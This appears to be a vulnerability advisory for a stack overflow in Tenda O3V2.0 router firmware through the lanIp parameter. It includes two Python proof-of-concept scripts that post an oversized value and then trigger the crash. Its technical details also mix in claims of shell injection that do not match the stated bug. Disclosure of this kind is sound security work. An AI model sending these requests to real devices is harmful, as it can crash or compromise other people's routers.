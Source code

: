## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `lanIp` POST parameter accepted by `/goform/AdvSetLanip` is written to the configuration key `lan.ip` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getLocalInfo`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type**:Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `lan.ip`.

## Technical details

- The `AdvSetLanip` endpoint accepts a POST parameter `lanIp` and calls `SetValue("lan.ip", v13)` without enforcing a maximum length or sanitizing shell metacharacters.
- Condition: For the program to execute this branch, the value of the POST parameter "lanType" must not be set to "Static".

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_100849.png)

- The `getLocalInfo` endpoint reads `lan.ip` via `GetValue("lan.ip", v6)` and passes it into a shell-invoking context (or a system call) without sanitization, making stored payloads executed when the endpoint is processed.
- ![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_101449.png)
- Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `lan.ip` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetLanip"
payload = b"a"*1000

data = {"lanIp":payload,"lanType":"A"}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getLocalInfo"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)